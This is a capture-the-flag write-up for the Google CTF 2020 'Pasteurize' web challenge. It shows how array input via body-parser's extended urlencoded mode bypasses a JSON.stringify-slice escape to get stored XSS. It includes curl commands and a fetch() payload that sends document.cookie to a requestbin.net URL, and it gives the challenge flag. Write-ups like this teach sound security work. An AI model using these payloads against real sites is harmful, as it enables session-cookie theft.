### Pasteurize - Google CTF 2020 (Web Challenge)

> This doesn't look secure. I wouldn't put even the littlest secret in here. My source tells me that third parties might have implanted it with their little treats already. Can you prove me right?
>
> https://pasteurize.web.ctfcompetition.com/

Upon visiting the site we're greeted with a simple form.



Let's take a look at the page source:



On line 24 we notice a hidden link to the location [/source](./source.js).

After studying the code can see that the server is running Express.js

There are several endpoints:

`GET /`   - returns index page
`POST /` - receives an input and saves it to a google-cloud datastore (noSQL)
`GET /{id}` - retieves a record from the database by `id` then sanitises and returns the result
`POST /report/{id}` - receives an {id} and triggers a server function to check the content of the post


## POST /

Let's submit a test payload and see what happens.





Looking at the page source after we've posted our message we notice that the `<` `>` characters have been replaced with `x3C` and `x3E` respectively. Looking back at the server source we recall seeing a filter function to prevent the use of HTML tags.

```javascript
/* Who wants a slice? */
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
```

Ok, so lets try another payload using an HTML element and an event..





We can see that the `` tag has been rendered but the `onerror` event has been stripped. Looking at the page `<head>` we notice that the page is importing [DOMPurify](https://github.com/cure53/DOMPurify) which is santising the HTML preventing XSS attacks.

We also notice a comment in the source code `<!-- TODO: Fix b/1337 in /source that could lead to XSS -->` which confirms this is an XSS attack, just not one that uses HTML tags.

So how can we execture Javascript on this page? Let's look at the serverside code again..

```javascript
/* Who wants a slice? */
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
```

We know why the .replace() methods are being called, by why `slice(1, -1)`?

```javascript
JSON.stringify("fooBar")             // returns: "foobar"
JSON.stringify("fooBar").slice(1,-1) // returns: foobar
```

Why do we want to remove the double quotes? What would happen if we send the payload to the page without the `slice(1,-1)` method? 

It would look something like this:

```html
<script>
    const note = ""fooBar"";
    const note_id = "96a043b6-311b-473e-9e06-440ecf0967ae";
    const note_el = document.getElementById('note-content');
    const note_url_el = document.getElementById('note-title');
    const clean = DOMPurify.sanitize(note);
    note_el.innerHTML = clean;
    note_url_el.href = `/${note_id}`;
    note_url_el.innerHTML = `${note_id}`;
 </script>	
```

Notice how `fooBar` has escaped the string literal. If that was valid javascript we would have code execution. 
For example: 

```javascript
const note = "";alert(1);//"";
```

That's awesome! But how can we bypass the `slice(1,-1)`? We need to find some some way to encapsulate our payload with additional characters so that those additional characters are stripped and leave the doublequotes intact.

You might try something like this;

```javascript
JSON.stringify('";alert(1);//"').slice(1,-1)
```

Not so fast! JSON's stringify method will just escape those pesky double quotes:

```html
\";alert(1);//\"
```

So what other options are there? If strings are always escaped perhaps we could try other JSON compatible data types

```javascript
JSON.stringify({"foo":"bar"}).slice(1, -1).replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
// outputs: ""foo":"bar""

JSON.stringify(["foobar"]).slice(1, -1).replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
// outputs: ""foobar""
```

That second output looks perfect! If we can store `[";alert(1);//"]` in the database we should be on our way to getting XSS!


## Getting the payload into the database

This is where the type of database is important. If the server uses an SQL database the field holding our data would most likely be textular (i.e. VARCHAR, TEXT, etc). However if the database is noSQL, it will save the data as the data-type that it receives (you insert an array and it saves as an array).

Fortunately for us, this CTF challenge is using Google's Cloud Datastore which is noSQL. Now we just need to POST the data to the server in a way that it is not inteperated as a string.

Looking at the server [source](./source.js) again we see that the [body-parser](https://github.com/expressjs/body-parser#readme) middleware is being utilised with the `urlencoded` method.

```javascript
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));
```

Reading the documentation for [body-parser](https://github.com/expressjs/body-parser#readme) we look at the `extended` option and discover:

`The "extended" syntax allows for rich objects and arrays to be encoded into the URL-encoded format, allowing for a JSON-like experience with URL-encoded. For more information, please see the qs library.`

Perfect! That's exactly what we want - to be able to POST our data as a JSON object. 

As suggested by the doc we follow the link to the [qs library](https://www.npmjs.com/package/qs#readme). There's a `stringify()` method that looks like it will do what we want. So lets create a quick Node.js app.

```javascript
const qs = require("qs");
const payload = qs.stringify([";alert(1);//"])
console.log(payload) // outputs: 0=%3Balert%281%29%3B%2F%2F
```

Let's POST it!



Behold! .. wait what?!


Our payload has been converted to a text string again! It must be the HTML `<textarea>` element setting the data-type as a string!

Let's copy the request from Chrome and POST it with Curl



```bash
curl -X POST 'https://pasteurize.web.ctfcompetition.com/' \
  -H 'content-type: application/x-www-form-urlencoded' \
  --data-raw 'content=0%3D%253Balert%25281%2529%253B%252F%252F'
```

Yes, as suspected the data is being posted as a `string` but we need to send it as our urlencoded object. So let's get rid of those single quotes!

```bash
curl -X POST 'https://pasteurize.web.ctfcompetition.com/' \
  -H 'content-type: application/x-www-form-urlencoded' \
  --data-raw 0=%3Balert%281%29%3B%2F%2F
```

We send the POST request and receive the response:

```Nothing to add```

After reading the [/source](./source.js) again we realise that the server expects `req.body.content` and we haven't included `content` in our payload. Without `content` our payload will be ignored!

So now we need to update our payload..

```javascript
const qs = require("qs");
const payload = qs.stringify({content: [";alert(1);//"]})
console.log(payload) // outputs: content%5B0%5D=%3Balert%281%29%3B%2F%2F
```

Let's try that new payload!

```bash
curl -X POST 'https://pasteurize.web.ctfcompetition.com/' \
  -H 'content-type: application/x-www-form-urlencoded' \
  --data-raw content%5B0%5D=%3Balert%281%29%3B%2F%2F
```

We get a response:

`Found. Redirecting to /0c8d342a-ebad-45be-8f16-000ceebd64a3`

We view the page and...



Wooohooo! We got'em boys!


## Exfiltrating cookies

Now that we have XSS we need to exfiltrate TJMike's cookie. To do so we can simply use `fetch()` to request a remote url and include cookies as URL parameters.

For example:

```javascript
fetch('https://requestbin.net/r/myaccount?cookies='+ encodeURIComponent(document.cookie), { mode: "no-cors" })

```

If you try this with the `https` site you will encounter an error similar to this.



You should make sure that you are connect to  [Pasteurize](http://pasteurize.web.ctfcompetition.com/)  over `http` otherwise there will be issues with CORS. Just to be safe we'll set the fetch `mode` option to `no-cors`.



If everything worked you will see a cookies `querystring`, mine says `foo=bar` because I manually set a cookie for testing.

Now lets encode our cookie exfil payload!

```javascript
const payload = qs.stringify({content: [";fetch('https://requestbin.net/r/"+REQUESTBIN_ID+"?x=' + encodeURIComponent(document.cookie), { mode: 'no-cors'});//"]});

console.log(payload); // outputs: content%5B0%5D=%3Bfetch%28%27https%3A%2F%2Frequestbin.net%2Fr%2Ftest%3Fcookies%3D%27%20%2B%20encodeURIComponent%28document.cookie%29%2C%20%7B%20mode%3A%20%27no-cors%27%7D%29%3B%2F%2F
```

Time to POST it!

```bash
curl -X POST 'http://pasteurize.web.ctfcompetition.com/' \
  -H 'content-type: application/x-www-form-urlencoded' \
  --data-raw content%5B0%5D=%3Bfetch%28%27https%3A%2F%2Frequestbin.net%2Fr%2Ftest%3Fcookies%3D%27%20%2B%20encodeURIComponent%28document.cookie%29%2C%20%7B%20mode%3A%20%27no-cors%27%7D%29%3B%2F%2F
```

We visit the address returned by cURL and we click the `share with TJMike🎤` button and cross our fingers!

Shortly after we check our request bin and...



CHALLENGE COMPLETE!

Flag: CTF{Express_t0_Tr0ubl3s}


